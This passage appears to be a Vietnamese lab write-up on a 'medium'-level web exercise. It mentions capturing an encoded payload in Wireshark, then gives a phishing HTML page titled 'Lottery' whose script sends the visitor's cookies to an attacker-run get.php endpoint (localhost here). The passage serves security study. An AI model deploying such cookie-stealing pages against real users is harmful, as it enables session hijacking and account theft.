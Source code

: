 Tương tự medium của GET, ta truyền payload được encode vào và capture bằng wireshark để thấy:

### Khai thác
Tạo url phishing 
```html
<!DOCTYPE html>
<html>
<head>
    <title>Lottery</title>
</head>
<body>
    <script>
        // Gửi cookie đến máy chủ attacker
        var img = new Image();
        img.src = "http://localhost/get.php?cookie=" + encodeURIComponent(document.cookie);
    </script>
</body>
</html>
```
File get.php giống bài Low
